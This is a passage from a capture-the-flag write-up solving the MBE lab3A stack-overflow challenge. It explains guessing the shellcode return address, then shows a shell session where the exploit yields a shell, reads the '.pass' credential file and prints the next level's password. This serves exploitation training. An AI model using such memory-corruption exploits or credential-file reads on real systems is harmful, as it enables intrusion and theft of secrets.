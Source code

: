 Nice, it seems to be working.

## Solution

As the stack addresses determined using *gdb* vary when directly executing the program, we have to try different addresses to hit the shellcode. The address for the *index 1* of the `data[]` we found in *gdb* was `0xbffff50c`, as the stack address are usually a bit lower outside *gdb*, we can decrease the `0xbffff50c` value one by one until we reach a valid return address.

Here `0xbffff4ea` did the trick.

```bash
lab3A@warzone:/levels/lab03$ (python /tmp/lab3c.py;cat;) | ./lab3A
----------------------------------------------------
  Welcome to quend's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   quend has reserved some storage for herself :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
whoami
lab3end
cat /home/lab3end/.pass
sw00g1ty_sw4p_h0w_ab0ut_d3m_h0ps
```

Good job! You can go to the next [challenge](/writeups/mbe/lab4c/) and learn about **format strings**!
